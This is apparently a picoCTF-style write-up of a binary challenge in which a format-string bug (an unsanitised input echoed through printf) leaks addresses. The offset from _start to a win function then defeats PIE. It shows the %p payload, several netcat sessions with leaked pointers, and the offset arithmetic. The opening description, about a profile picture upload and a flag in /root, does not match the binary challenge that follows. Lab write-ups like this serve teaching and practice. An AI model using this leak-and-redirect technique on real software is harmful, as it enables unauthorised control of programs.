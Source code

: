 ## Description
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

## Category
#binary  
## Score
200
## Hints
Hint 1:
What vulnerability can be exploited to leak the address?

Hint 2: Please be mindful of the size of pointers in this binary
## Solution
### Enumeration
From the source code, we can see that the user input is unsanitized, which explains for the first hint.
![[Pasted image 20250311214018.png]]

Therefore, we can leak the address with `%p`.

Example: AAAA%p.%p.%p

`%p` is the format specifier for printing pointer addresses in a platform-specific representation (typically hexadecimal with a "0x" prefix). For example, `printf("%p", some_pointer)` might output something like `0x7fffffffe378`.

for the second hint, we don't want to exceed the number of `%p` is important, otherwise it's just gonna push the input to the address jump scanf line.

So the payload should be exactly, 
`AAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p`

Another important thing to do is to dump the functions' address as we need to calculate the offset. This is very important as offset is `IMMUTABLE`

![[Pasted image 20250311214824.png]]

### Exploitation
When we perform a address leak, we can notice some important things:
![[Pasted image 20250311215047.png]]
The addresses at 15th and 18th has the same prefix
![[Pasted image 20250311215109.png]]
0x5b... which means they come from the same memory region and are likely functions in the C file we receive.

If we enter the 15th address, we can see that in loops the input thing
![[Pasted image 20250311215207.png]]

So if we follow intuition, we would expect that this address is from the `call_functions`, then calculate the offset to find win like `PIE_TIME_1`. However, that doesn't work but you are free to try.

```bash
┌──(atlas㉿kali)-[~/Desktop]
└─$ nc rescued-float.picoctf.net 53047
Enter your name:AAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
AAAA0x5935710d52a1.(nil).(nil).0x7ffd26255020.0x7c.0x7ffd262df228.0x74a720ec96a0.0x252e702541414141.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x70252e70252e70.0x59353da9a1c0.0x37f3eaa5a56fb500.0x7ffd26255080.0x59353da9a441.(nil) enter the address to jump to, ex => 0x12345: 0x59353da9a3ab
^C
                                                                                                                                                      
┌──(atlas㉿kali)-[~/Desktop]
└─$ nc rescued-float.picoctf.net 53047
Enter your name:AAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
AAAA0x5734b88822a1.(nil).(nil).0x7ffca7c918a0.0x7c.0x7ffca7cfc228.0x762973f016a0.0x252e702541414141.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x70252e70252e70.0x57349d5a11c0.0x512885fc5f3cab00.0x7ffca7c91900.0x57349d5a1441.(nil) enter the address to jump to, ex => 0x12345: 0x57349d5a11c0
Enter your name:
 enter the address to jump to, ex => 0x12345: 0x57349d5a1263
Segfault Occurred, incorrect address.
^C
                                                                                                                                                      
┌──(atlas㉿kali)-[~/Desktop]
└─$ nc rescued-float.picoctf.net 53047
Enter your name:AAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
AAAA0x616ade2cd2a1.(nil).(nil).0x7fff7ad0c410.0x7c.0x7fff7ad64228.0x79c8251c86a0.0x252e702541414141.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x70252e70252e70.0x616ab8a7a1c0.0x8115bf3cc6ec2300.0x7fff7ad0c470.0x616ab8a7a441.(nil) enter the address to jump to, ex => 0x12345: 0x616ab8a7a36a
```

After looking at the output for long enough, you can see that the 15th and 18th address has a common thing each time we connect to the server. Their `affix` of `1c0` and `441` respectively.

So if we look back at the address dump we made with `gdb`, we can see that `1c0` is the affix of the `_start` function and `441` is close to the `main` function address

So if we calculate the offset between ` _start` and `win`, it's 0x01AA

The next time we run, we simply add 0x01AA to whatever the 15th address is.

![[Pasted image 20250311220032.png]]

